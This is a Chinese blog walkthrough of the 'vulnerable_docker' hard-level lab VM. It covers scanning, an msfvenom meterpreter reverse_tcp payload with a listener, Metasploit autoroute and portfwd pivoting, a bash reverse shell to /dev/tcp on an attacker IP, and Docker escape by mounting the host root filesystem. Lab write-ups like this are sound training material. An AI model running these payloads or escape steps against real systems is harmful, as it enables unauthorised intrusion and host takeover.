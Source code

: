 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk3NTIyOTA0OQ==&mid=2247485103&idx=1&sn=39fb88b11cae5d38e87df61718887117

#  vulnerable_docker_containement（hard难度）MSF内网穿透、docker逃逸、wpscan爆破。  
原创 泷羽Sec-朝阳  泷羽Sec-朝阳   2025-06-15 09:12  
  
## 一、信息收集  
### 1、主机发现  
  
arp-scan -l![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAAynz064rYjXDgYeZe3dB6ER4mre3YibLAIIyF5jBuE1ibbiaFpZG8Yp40g/640?wx_fmt=png&from=appmsg "")  
  
### 2、端口扫描  
  
nmap -sS -sV 192.168.66.146 nmap -p- -Pn -sC -sV -n 192.168.66.146 whatweb -v 192.168.66.146  

```
22/tcp   open  ssh     OpenSSH 6.6p1 Ubuntu 2ubuntu1 

8000/tcp open  http    Apache httpd 2.4.10 ((Debian))

```

  
ok，这里扫出来两个端口，一个8000端口一个22端口，我们先看看8000端口有什么东西  
### 3、目录扫描，指纹识别  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAAv5fcF0t9hTldkaL6JVk9NW9Rzc9lllY0v96kHLaH8IE9GLOUbOYpZw/640?wx_fmt=png&from=appmsg "")  
这个hard难度我打开的时候就已经有之前的缓存了，那我们直接连接shell即可  
### 4、gitshell，内网信息收集  
  
内网收集![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAAEb9YhBEtib1bu3fwUgSwevL9iaQdibQmk7c8UtpSrxXdnh0aicLiaKM9Biag/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAAPwTAPaibLedLicb8CUkiaa5NoOmFbpaqrYsWA2X9NfZ2duRam9EfFhBGg/640?wx_fmt=png&from=appmsg "")  
ok，这里找到了个ip，应该和上台靶机一样的 老规矩，探测一下内网存活i  

```
for i in {1..254}; do (ping -c 1 172.18.0.${i} | grep &#34;bytes from&#34; | grep -v &#34;Unreachable&#34; &); done;

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAAictnkpkPojlwz7UQiaNicwJoIibiak9Aa8WNh9GWcak4kicMzBYXVCRsibWRQ/640?wx_fmt=png&from=appmsg "")  
### 5、代理搭建  
  
这里直接使用msf模块  

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.66.129 LPORT=9999 -f elf > hzy

```

  
使用MSF创建稳定shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAAYPUUaQh7JcUtHicu3rG6G3VBIX1h5LrATPXSbJy3sOKhor1vclI4w6A/640?wx_fmt=png&from=appmsg "")  
我们下载下来，然后kali上开一个监听  

```
use exploit/multi/handler
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set lhost 192.168.66.129
msf6 exploit(multi/handler) > set lport 9999
msf6 exploit(multi/handler) > run

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAANJh6PJibibs9rNt6B3Gz4MhO57icVSkj3ib7wJks3Ujiapxicmj5XaTCsdNA/640?wx_fmt=png&from=appmsg "")  
ok，这里拿到了不稳定的shell，接下来我们弹一条shell  
  
添加路由，搭建代理  

```

meterpreter > route

IPv4 network routes
===================

    Subnet      Netmask      Gateway     Metric  Interface
    ------      -------      -------     ------  ---------
    0.0.0.0     0.0.0.0      172.18.0.1  0       eth0
    172.18.0.0  255.255.0.0  0.0.0.0     0       eth0

No IPv6 routes were found.
meterpreter > run post/multi/manage/autoroute

[*] Running module against 172.18.0.2
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.18.0.0/255.255.0.0 from host's routing table.
meterpreter > run auturoute -p

[-] The specified meterpreter session script could not be found: auturoute
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.18.0.0         255.255.0.0        Session 1



```

### 6、内网扫描同网段主机  
  
这里我们直接用net.sh脚本扫内网存活主机了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAA6DJTwYiagQWlrSLdOJQgGvbOYtjynvjkzB0icRr4NufzjpicHJwv34iarg/640?wx_fmt=png&from=appmsg "")  
这里端口转发就要msf的了，比较方便![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAARMLJibOFhTMaPyp3mbkYyuwLS89dec7NEictCzW5t3I6WpQy4vceuQdw/640?wx_fmt=png&from=appmsg "")  
怪可爱的，msf的logo  

```
portfwd add -l 8022 -p 8022 -r 172.18.0.4

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAARwVKuTgcRSciaQoRCRhWmbGuKwEHKekWicASOClwbo7ziaaqLvkHUPk7g/640?wx_fmt=png&from=appmsg "")  
转发成功，访问8022端口  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAASdt9UMRs7J9YtJAicgCJQgGDcQazV6woibmFKM8OprMavgCR2aW6xydA/640?wx_fmt=png&from=appmsg "")  
ok，转发成功，这里反弹一个shell，因为这个是docker环境，不能做什么操作 bash -i >& /dev/tcp/192.168.66.129/7777 0>&1 这里出了点问题，就是我的kali端口转发后访问127.0.0.1：8022端口后的页面关闭了之后就再也无法访问了，这里就借鉴其他师傅的wp了。![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAAUzyjmBkVo3gwY9X39kYLNZs3UcrtC7ut4CCXEmW6vGYXtic02GaP1hA/640?wx_fmt=png&from=appmsg "")  
卡在这个页面再也不动了，有知道的师傅可以评论  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAACyXCWYkTb1KbMtrd6ia2kqLpsvfg3VwK5TCgI7F8Yz5I3ac9URo7ialg/640?wx_fmt=png&from=appmsg "")  

```
apt update
apt install python docker wget
如果docker无法安装成功，可以通过在其他主机上复制docker二进制文件，并下载到容器中

```

### 7.使用Python创建虚拟终端  
  
python -c 'import pty; pty.spawn("/bin/bash")' ./docker run -it -v /:/host ubuntu bash cd /host  
### 8.获取flag  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT21lagBTgP7v1cCUENXHYAA6RgIztzts96y8nibYJz9DslErfDsBlSa1UUspw3RIJNlRZCnNKfMpVQ/640?wx_fmt=png&from=appmsg "")  
  
这个好像和easy难度没什么区别，如果前面步骤有不懂的可以参考easy难度，哪个写的更完整  
  
  
